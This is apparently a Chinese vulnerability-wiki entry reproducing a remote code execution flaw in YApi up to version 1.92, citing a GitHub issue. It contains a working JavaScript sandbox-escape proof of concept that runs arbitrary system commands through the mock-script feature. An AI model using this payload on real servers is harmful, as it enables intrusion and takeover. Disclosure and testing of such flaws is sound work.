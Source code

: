 <languages />

<center>
|:-:|:-:|
|![](Check.png "Check.png")|**該漏洞已通過驗證**

* * * * *

<small>本頁面的EXP/POC/Payload經測試可用，漏洞已經成功復現。</small>|

</center>
影響版本
--------

\<=V1.92 All

漏洞復現
--------

登錄註冊後，創建一個項目

![](124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png "124460388-eaa46100-ddc1-11eb-80c4-2bddb97df8e1.png")

然後選擇設置全局的mock腳本，設置命令為遠程訪問我的服務器地址。

![](124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png "124460511-090a5c80-ddc2-11eb-92f6-46c9b3b498bb.png")

添加接口，訪問接口的mock地址

![](124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png "124460629-2dfecf80-ddc2-11eb-98c3-b96f7174d8f1.png")

服務器可以看到如下響應 ![](124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png "fig:124460757-5686c980-ddc2-11eb-87df-09e0f9ac08af.png")

POC
---

    const sandbox = this
    const ObjectConstructor = this.constructor
    const FunctionConstructor = ObjectConstructor.constructor
    const myfun = FunctionConstructor('return process')
    const process = myfun()
    mockjson = process.mainModule.require("child_process").execSync("command").toString()

參考
----

<https://github.com/YMFE/yapi/issues/2233>